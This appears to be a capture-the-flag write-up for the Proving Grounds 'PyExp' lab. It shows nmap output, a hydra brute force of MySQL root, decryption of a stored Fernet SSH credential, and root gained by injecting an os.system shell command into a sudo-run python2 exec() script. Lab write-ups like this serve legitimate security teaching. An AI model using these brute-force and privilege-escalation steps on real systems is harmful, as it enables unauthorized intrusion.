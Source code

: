 ```yaml
---
title: "Proving grounds Play: PyExp"
layout: post
date: 2023-09-17 02:00
categories: writeup
---
```


Proving grounds Play - PyExp CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 368
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsCompression, InteractiveClient, SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, FoundRows, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: KyD%+GeFklYZ8G;3,#he
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Brute Force mysql credentials

```sh
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.204.118
```

Credentials obtained `root:prettywoman`.

![img](/assets/images/CTF/Proving_Grounds/PyExp/mysql.png)

Select database `data` and check the tables.

```sh
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.215 sec)
```

Extract data from the table `fernet`.

```sh
MariaDB [data]> SELECT * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.182 sec)

MariaDB [data]>
```

## Fernet Decode

![img](/assets/images/CTF/Proving_Grounds/PyExp/fernet.png)

### Decoded data

```text
Decoded:	lucy:wJ9`"Lemdv9[FEw-
Date created:	Mon Aug 10 21:02:44 2020
Current time:	Sun Sep 17 03:36:04 2023

======Analysis====
Decoded data:  80000000005f31b5f46ea5894d37472946181bd53963a2460a980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b
Version:	80
Date created:	000000005f31b5f4
IV:		6ea5894d37472946181bd53963a2460a
Cipher:		980488baa6608565581eedf20becb9ac9f84b38efdc1e7250175fe26efd78b22
HMAC:		d4c6cbec382df4e764f262870172e1c8766995ac74bf4d8c33387fcff788ef2b

======Converted====
IV:		6ea5894d37472946181bd53963a2460a
Time stamp:	1597093364
Date created:	Mon Aug 10 21:02:44 2020
```

Decoded data is a SSH credential.

SSH to user `lucy` using the password obtained in the above step.

**Initial Foothold Obtained**

## Privilege Escalation

Check permissions for the user.

![img](/assets/images/CTF/Proving_Grounds/PyExp/shell.png)

The user can run python2 as root without password and check the python code.

```py
uinput = raw_input('how are you?')
exec(uinput)
```

The input `uinput` in the above code is not sanitized, so an arbitrary command injection vulnerability is exploitable.

Run the python code as super user as below with the input as a OS command.

```sh
import os; os.system("/bin/dash")
```

![img](/assets/images/CTF/Proving_Grounds/PyExp/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).